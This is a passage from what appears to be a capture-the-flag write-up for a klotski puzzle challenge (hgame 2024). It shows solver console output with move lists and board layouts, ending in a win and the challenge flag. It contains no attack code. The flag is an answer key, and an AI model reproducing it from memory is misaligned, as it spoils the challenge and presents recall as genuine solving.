[*] steps: [{"position":7,"direction":1},{" ... },{"position":14,"direction":4}]
[*] status: next
[*] layout: 35101113241122222202
[*] steps: [{"position":7,"direction":1},{" ... 4},{"position":9,"direction":3}]
[*] status: next
[*] layout: 25120113333111120241
[*] steps: [{"position":0,"direction":3},{" ... },{"position":12,"direction":2}]
[*] status: next
[*] layout: 51411132031231221410
[*] steps: [{"position":17,"direction":2},{ ... },{"position":12,"direction":2}]
[*] status: next
[*] layout: 25102112041233331111
[*] steps: [{"position":9,"direction":4},{" ... 2},{"position":9,"direction":3}]
[*] status: next
[*] layout: 05132111202241414141
[*] steps: [{"position":4,"direction":1},{" ... },{"position":14,"direction":4}]
[*] status: win
[+] flag: hgame{0c6ffa92a932519d38aae551a977acda05cd8933}
PS D:\Workspace\rev\hgame_2024\week_2\hgame_klotski>
```

`hgame{0c6ffa92a932519d38aae551a977acda05cd8933}`
